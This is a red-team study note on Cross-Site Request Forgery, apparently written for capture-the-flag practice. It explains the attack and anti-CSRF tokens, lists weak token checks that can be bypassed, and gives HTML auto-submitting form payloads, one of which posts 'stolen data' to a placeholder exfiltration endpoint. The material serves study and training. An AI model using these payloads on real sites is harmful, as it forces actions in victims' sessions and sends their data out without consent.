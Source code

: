 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![samcms](../../../../_badges/rootme/realist/samcms.svg)](https://www.root-me.org/en/Challenges/Realist/SamCMS)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

If a cookie was set with `SameSite: None` which is not the default, it can be accessed and exploited from any site.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack, by injecting a form that automatically submit itself.

📚 During CTFs, it may take between one and five minutes.
</div><div>

You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![gitlabcve20237028](../../../../_badges/thm-p/gitlabcve20237028.svg)](https://tryhackme.com/r/room/gitlabcve20237028)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

CSRF tokens should be randomly generated. Do not use `md5(username)` or similar guessable token generation functions.

Many tools have built-in switches to handle/bypass such forms.
</div><div>

A few other inappropriate settings

* The server only checks if the header is present
* The server only checks if the length of the token
* The server only checks the token if it was sent
* We can use someone else's CSRF token
* We can reuse a CSRF token
* Verb tampering may bypass CSRF verification

There is also the [Double-Submit Cookie Pattern](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#alternative-using-a-double-submit-cookie-pattern) but it can be bypassed by giving an arbitrary value to both the cookie and the header.
</div></div>

<hr class="sep-both">

## Additional Payloads

<div class="row row-cols-lg-2"><div>

Login form

```html!
<form id="autosubmit" action="URL" method="post">
<input name="username" value="toto">
<input name="password" value="toto">
<button type="submit" class="btn btn-default">Submit</button>
</form>
```
</div><div>
</div></div>